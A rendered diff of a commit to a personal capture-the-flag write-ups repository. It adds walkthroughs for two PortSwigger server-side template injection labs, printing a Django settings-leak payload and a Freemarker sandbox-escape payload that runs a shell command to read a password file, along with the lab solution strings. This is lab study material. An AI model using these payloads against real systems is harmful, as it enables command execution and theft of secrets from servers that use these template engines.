

Before and after one commit to sousa16/ctf-writeups, a Markdown page: portswigger-websec-academy/ssti/ssti.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
feat: progressed in portswigger's ssti labs

````diff
--- a/portswigger-websec-academy/ssti/ssti.md
+++ b/portswigger-websec-academy/ssti/ssti.md
@@ -76,3 +76,33 @@ we can craft the following payload: <br>
     ```
 
 4. URL-encoding this payload and submitting it as **message** solves the lab.
+
+## SSTI with information disclosure via user-supplied objects
+[SSTI with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)
+
+Write-up:
+
+1. After logging in, we are able to edit templates, and we discover that a Django
+template with Python 2.7 is being used.
+
+2. Upon researching Django SSTI, we can find this [website](https://www.wallarm.com/what/server-side-template-injection-ssti-vulnerability).
+It shows us that we can try to access {{settings}}, and possibly {{settings.SECRET_KEY}}, which are both possible.
+This reveals the solution: **xd4klewsdwzux56wdrfdxgaajj8ekyr0**
+
+## SSTI in a sandboxed environment
+[SSTI in a sandboxed environment](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment)
+
+Write-up:
+
+1. We are told the website uses a Freemarker template and that we should break out
+of the sandbox and read flag at home/carlos/my_password.txt. After logging in,
+we see that we can once again edit the posts' templates.
+
+2. Attempting to use the payload `${"freemarker.template.utility.Execute"?new()("cat /home/carlos/my_password.txt")}`
+fails due to the sandboxed environment: <br>
+"Instantiating freemarker.template.utility.Execute is not allowed in the template for security reasons."
+
+1. After some research, we can find the following [documented exploit](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack). We use it
+to craft the following payload: <br>
+`${product.class.protectionDomain.classLoader.loadClass("freemarker.template.ObjectWrapper").getField("DEFAULT_WRAPPER").get(null).newInstance(product.class.protectionDomain.classLoader.loadClass("freemarker.template.utility.Execute"),null)("cat /home/carlos/my_password.txt")}` <br>
+This gets us the solution: **6ahblydrrpsffr1ru83r**
````
